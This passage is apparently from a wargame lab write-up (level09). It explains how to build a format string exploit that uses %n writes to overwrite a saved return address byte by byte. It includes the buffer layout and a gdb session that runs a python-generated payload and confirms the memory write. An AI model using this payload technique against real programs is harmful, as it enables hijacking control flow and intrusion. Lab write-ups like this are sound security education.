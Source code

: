 As you can see, I picked an address on the stack to write to and placed the bytes at the beginning of the buffer, put three junk format paramters to walk over the first three dwords on the stack, then put a `%n` where our address 0xbffff8c0 would be and we actually wrote 0x1c to that location! So here's what we need: 1) The base value of what we write to an address (I'll explain this in a minute), 2) the location of the return address, and 3) an address with which we can overwrite the return address and point back to our buffer on the stack.

Our buffer is going to need to take the form of `[ADDRESS]JUNK[ADDRESS+1byte]JUNK[ADDRESS+2bytes]JUNK[ADDRESS+3bytes]%08x%08x%08x%n%08x%n%08x%n%08x%n`. Let's break this down a bit. [ADDRESS] is the address that we want to overwrite: the location on the stack where we can find the return address. We increment this by one byte each time because we're going to overwrite this address one byte at a time. So that explains where #2 comes in above. We have four bytes of junk in between each address because we are going to need our `%x` format parameters to pad the output so that we write the correct value to each byte of the return address overwrite. So to find the base value that I mentioned in #1, we need to pick and address that we can view on the stack and write the buffer in as shown above and see what address we end up writing. An example is shown below.
```
(gdb) run $(python -c 'print "\xc0\xf8\xff\xbfJUNK\xc1\xf8\xff\xbfJUNK\xc2\xf8\xff\xbfJUNK\xc3\xf8\xff\xbf" + "%08x%08x%08x%n%08x%n%08x%n%08x%n"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /levels/level09 $(python -c 'print "\xc0\xf8\xff\xbfJUNK\xc1\xf8\xff\xbfJUNK\xc2\xf8\xff\xbfJUNK\xc3\xf8\xff\xbf" + "%08x%08x%08x%n%08x%n%08x%n%08x%n"')

Breakpoint 1, 0x080483e9 in main ()
1: x/10i $eip
=> 0x80483e9 <main+69>: call   0x80482ec <printf@plt>
   0x80483ee <main+74>: mov    eax,0x0
   0x80483f3 <main+79>: leave  
   0x80483f4 <main+80>: ret    
   0x80483f5:   nop
   0x80483f6:   nop
   0x80483f7:   nop
   0x80483f8:   nop
   0x80483f9:   nop
   0x80483fa:   nop
(gdb) x/xw 0xbffff8c00xbffff8c0: 0x00000000
(gdb) ni
0x080483ee in main ()
1: x/10i $eip
=> 0x80483ee <main+74>: mov    eax,0x0
   0x80483f3 <main+79>: leave  
   0x80483f4 <main+80>: ret    
   0x80483f5:   nop
   0x80483f6:   nop
   0x80483f7:   nop
   0x80483f8:   nop
   0x80483f9:   nop
   0x80483fa:   nop
   0x80483fb:   nop
(gdb) x/xw 0xbffff8c0
0xbffff8c0:   0x4c443c34
```
